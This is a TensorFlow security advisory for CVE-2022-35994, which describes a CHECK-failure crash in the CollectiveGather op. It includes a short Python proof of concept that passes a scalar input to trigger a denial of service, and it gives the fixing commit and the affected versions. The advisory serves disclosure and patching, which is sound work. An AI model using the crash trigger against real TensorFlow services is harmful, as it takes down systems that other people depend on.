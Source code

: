 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-126.md
## TFSA-2022-126: `CHECK` fail in `CollectiveGather`

### CVE Number
CVE-2022-35994

### Impact
When `CollectiveGather` receives an scalar input `input`, it gives a `CHECK` fails that can be used to trigger a denial of service attack.
```python
import tensorflow as tf
arg_0=1
arg_1=1
arg_2=1
arg_3=1
arg_4=(3, 3,3)
arg_5='auto'
arg_6=0
arg_7=''
tf.raw_ops.CollectiveGather(input=arg_0, group_size=arg_1, group_key=arg_2,
                            instance_key=arg_3, shape=arg_4,
                            communication_hint=arg_5, timeout_seconds=arg_6, name=arg_7)
```

### Patches
We have patched the issue in GitHub commit [c1f491817dec39a26be3c574e86a88c30f3c4770](https://github.com/tensorflow/tensorflow/commit/c1f491817dec39a26be3c574e86a88c30f3c4770).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology.

